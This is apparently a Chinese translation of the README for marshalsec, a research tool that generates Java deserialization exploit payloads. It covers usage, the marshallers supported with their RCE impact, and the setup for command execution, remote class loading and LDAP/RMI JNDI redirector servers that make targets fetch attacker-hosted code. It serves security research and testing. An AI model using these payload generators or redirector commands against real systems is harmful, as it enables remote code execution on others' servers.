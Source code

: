 # Java Unmarshaller Security - 将数据转化为代码执行

如果您来这里是为了 Log4Shell/CVE-2021-44228，您可能想阅读 漏洞利用向量和受影响的 Java 运行时版本：
<https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/>

## Paper

自 Chris Frohoff 和 Garbriel Lawrence 提出他们对 Java 对象反序列化漏洞的研究以来，已经过去两年多了，最终导致了 Java 历史上最大的一波远程代码执行错误。

对该问题的研究表明，这些漏洞并非像 Java 序列化或 XStream 这样具有表现力的机制所独有，但有些漏洞也可能适用于其他机制。


本文对各种 Java 开源编组库进行了分析（包括利用细节），这些库允许对攻击者提供的任意类型进行解组，并表明无论此过程如何执行以及存在哪些隐式约束，它很容易出现类似的利用技术。


全文位于 [marshalsec.pdf](https://www.github.com/mbechler/marshalsec/blob/master/marshalsec.pdf?raw=true)

## 免责声明

所有信息和代码仅用于教育目的和/或测试您自己的系统是否存在这些漏洞。



## Usage

需要 Java 8。使用 maven进行构建  .
```mvn clean package -DskipTests```

运行为
```shell
java -cp target/marshalsec-[VERSION]-SNAPSHOT-all.jar marshalsec.<Marshaller> [-a] [-v] [-t] [<gadget_type> [<arguments...>]]
```

在哪里

* **-a** -  生成/测试该marshaller的所有有效负载
* **-t** - 在测试模式下运行，生成有效负载后对其进行unmarshalling 。
* **-v** - 详细模式，例如还显示测试模式下生成的有效负载。
* **gadget_type** - 特定小工具的标识符，如果省略，将显示该特定marshaller的可用标识符。
* **arguments** - 小工具特定参数

包括以下marshallers 的有效负载生成器：<br />

| Marshaller                  | 小工具的影响                                                |
| --------------------------- | ------------------------------------------------------------ |
| BlazeDSAMF(0&#124;3&#124;X) | JDK仅升级为Java序列化<br/>各种第三方库 RCEs |
| Hessian&#124;Burlap         | 各种第三方 RCEs                                     |
| Castor                      | 依赖库RCE                                       |
| Jackson                     | **可能仅 JDK RCE**, 各种第三方 RCEs          |
| Java                        | 又一个第三方 RCE                                  |
| JsonIO                      | **仅限 JDK 的 RCE**                                             |
| JYAML                       | **仅限 JDK 的 RCE**                                             |
| Kryo                        | 第三方 RCEs                                             |
| KryoAltStrategy             | **仅限 JDK 的 RCE**                                             |
| Red5AMF(0&#124;3)           | **仅限 JDK 的 RCE**                                             |
| SnakeYAML                   | **仅限 JDK 的 RCEs**                                            |
| XStream                     | **仅限 JDK 的 RCEs**                                            |
| YAMLBeans                   | 第三方RCE                                              |

# 参数和附加先决条件

## 系统命令执行

* **cmd** - 要执行的命令
* **args...** - 作为参数传递的附加参数

没有先决条件。

## 远程类加载（普通）

* **codebase** - 远程代码库的 URL
* **class** - 要加载的类

**先决条件**:

* 在某个路径下设置一个托管 Java 类路径的 Web 服务器。
* 要加载的编译类文件需要根据 Java 类路径约定提供服务。

## 远程类加载（ServiceLoader）

* **service_codebase** - 远程代码库的 URL

要加载的服务当前硬编码为*javax.script.ScriptEngineFactory*.




**先决条件**:

* 与普通远程类加载相同。
* 还需要位于 *<codebase>*/META-INF/javax.script.ScriptEngineFactory
  的提供程序配置文件，其中包含纯文本的目标类名。
* 指定的目标类需要实现服务接口*javax.script.ScriptEngineFactory*.

### JNDI 引用间接

* **jndiUrl** - 用于触发查找的 JNDI URL


**先决条件**:

* 设置远程代码库，与远程类加载相同
* 运行指向该代码库的 JNDI 引用重定向器服务 - 其中包括两个实现: *marshalsec.jndi.LDAPRefServer* 和*RMIRefServer*.
  ```shell
  java -cp target/marshalsec-[VERSION]-SNAPSHOT-all.jar marshalsec.jndi.(LDAP|RMI)RefServer <codebase>#<class> [<port>]
  ```
* 使用 (ldap|rmi)://*host*:*port*/obj 作为 *jndiUrl*, 指向该服务的侦听地址。

## 运行测试

有几个系统属性可以在运行测试时控制参数(通过 Maven 或使用 **-a**时)

* **exploit.codebase**, 默认为*http://localhost:8080/*
* **exploit.codebaseClass**, 默认为*Exploit*
* **exploit.jndiUrl**, 默认为*ldap://localhost:1389/obj*
* **exploit.exec**, 默认为*/usr/bin/gedit*

测试运行时安装了 SecurityManager，用于检查系统命令执行情况以及从远程代码库执行的代码情况。为此，正在使用的加载类必须触发一些安全管理器检查。
